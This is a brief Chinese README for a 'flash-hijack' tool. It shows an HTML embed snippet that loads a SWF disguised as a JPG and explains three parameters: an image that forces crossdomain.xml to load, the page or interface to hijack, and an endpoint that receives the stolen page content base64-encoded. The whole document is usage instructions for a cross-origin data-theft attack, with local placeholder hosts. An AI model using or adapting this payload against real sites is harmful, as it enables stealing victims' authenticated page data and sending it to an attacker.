 # flash-hijack
flash 劫持轮子

使用：
HTML：

&lt;div&gt; 
&lt;embed src=&quot;hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php&quot; width=&quot;970&quot; height=&quot;107&quot; quality=&quot;high&quot; pluginspage=&quot;http://www.macromedia.com/go/getflashplayer&quot; type=&quot;application/x-shockwave-flash&quot; wmode=&quot;transparent&quot;&gt;&lt;/embed&gt; 
&lt;/object&gt; 
&lt;/div&gt;

参数说明:

jpg：域下的图片（为了优先加载crossdomain.xml，否则劫持的接口加载太慢会导致无法劫持）

get：劫持的接口或者页面

post：接收劫持过来的页面为base64传输

文章:https://zhuanlan.zhihu.com/p/67484852
